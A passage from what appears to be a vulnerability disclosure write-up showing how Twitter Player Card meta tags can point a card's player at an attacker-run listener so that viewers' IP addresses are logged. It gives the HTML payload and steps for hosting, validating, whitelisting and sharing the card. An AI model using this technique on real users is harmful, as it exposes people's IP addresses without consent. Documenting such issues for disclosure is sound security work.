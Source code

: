 Here are some sample with a listener in 192.168.1.1:2020:

```html
<meta name="twitter:card" content="player" />
<meta name="twitter:title" content="Twitter cards vulnerability" />
<meta name="twitter:description" content="Twitter cards vulnerability allows to get the video viewer IP, Listen to 192.168.1.1:2020 on your machine then play the video you will be surprised" />
<meta name="twitter:player" content="https://192.168.1.1:2020" />
<meta name="twitter:player:width" content="360" />
<meta name="twitter:player:height" content="203" />
<meta name="twitter:image" content="https://upload.wikimedia.org/wikipedia/de/thumb/9/9f/Twitter_bird_logo_2012.svg/154px-Twitter_bird_logo_2012.svg.png" />
```


----------


#### Step 2:  Host the your page


----------


#### Step 3: Validating your URL using the Twitter validator tool:
Once you have added the meta tags and published your page, copy and paste the page URL into the [Twitter Card Validator](https://cards-dev.twitter.com/validator) and then click **Preview Card**.

![F156985](https://cdn.rawgit.com/xc0d3rz/Abstract-jekyll/c690ee51/img/Screenshot_at_2017-02-02_23_41_50.png)

----------


#### Step 4: Request approval for whitelisting
If your domain has not been whitelisted by Twitter, the Player Cards will not appear. When validating the URL, a message will appear stating that the URL has not been whitelisted.


Click **Request Approval** to begin the approval process. You will be required to provide additional information about your domain. For more information on the approval process, see the [Twitter documentation](https://dev.twitter.com/cards/types/player/approval).

![F156986](https://cdn.rawgit.com/xc0d3rz/Abstract-jekyll/c690ee51/img/Screenshot_at_2017-02-02_23_49_24.png)


----------


#### Step 5: Share it on twitter:
When the embedded video is begin played you might received the viewer(s) IP (I suggest to use request logger) .

![F156990](https://cdn.rawgit.com/xc0d3rz/Abstract-jekyll/c690ee51/img/Screenshot_at_2017-02-02_23_52_28.png)


### PoC Video
